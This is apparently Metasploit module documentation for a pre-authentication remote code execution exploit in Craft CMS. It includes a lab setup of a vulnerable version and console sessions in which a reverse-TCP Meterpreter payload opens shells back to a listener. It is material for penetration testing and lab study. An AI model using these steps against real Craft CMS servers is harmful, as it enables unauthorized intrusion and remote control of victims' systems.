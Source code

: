 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Craft CMS.

The vulnerability lies in improper handling of image transformations, which can be exploited to
inject and execute arbitrary PHP code on the server via crafted HTTP requests.

---

### Affected Versions

- **3.x series**: `>= 3.9.15`
- **4.x series**: `>= 4.14.15`
- **5.x series**: `>= 5.6.17`

---

### Setting Up a Vulnerable Lab

To test this exploit, follow these steps to set up a vulnerable Craft CMS environment.

#### Docker Setup

Install a specific vulnerable version of Craft CMS:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
    # Configure DDEV (https://ddev.com/) project for Craft CMS \
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="postgres:15" \
  --nodejs-version="20" && \
    # Create the DDEV project
ddev start -y && \
    # Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
    # Install a vulnerable Craft CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
    # Set the security key for Craft CMS
ddev craft setup/security-key && \
    # Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
ddev restart && \
    # Launch the project
echo 'Setup complete. Launching the project.' && \
ddev launch
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.


## Options

The module has the following option:

- **ASSET_ID**: This option is required for older versions of Craft CMS, particularly in the 3.x series.
    It specifies the asset ID for the Craft CMS instance. For 3.x versions, this ID must be set correctly to exploit the vulnerability.

For example, if you are targeting a Craft CMS version from the `>= 3.0.0`, `< 3.9.14`, make sure to specify the correct `ASSET_ID`.
This is necessary for successful exploitation when dealing with these versions.

Craft CMS uses the notion of an "Asset" to manage files and media such as images and documents; each asset has a unique ID.
This module does not perform bruteforcing of asset IDs to avoid noisy and inefficient exploitation attempts.


## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

##### For `ARCH_PHP`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ASSET_ID  410              yes       Existing asset ID
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-m
                                        etasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.
```

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (40004 bytes) to 172.24.0.2
[*] Meterpreter session 12 opened (192.168.1.36:4444 -> 172.24.0.2:35238) at 2025-04-29 21:52:44 +0200

meterpreter > sysinfo
Computer    : exploit-craft-web
OS          : Linux exploit-craft-web 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

##### For `ARCH_CMD`:

```bash
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set target 1
target => 1
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (3045380 bytes) to 172.24.0.2
[*] Meterpreter session 13 opened (192.168.1.36:4444 -> 172.24.0.2:33436) at 2025-04-29 21:53:43 +0200

meterpreter > sysinfo
Computer     : 172.24.0.2
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
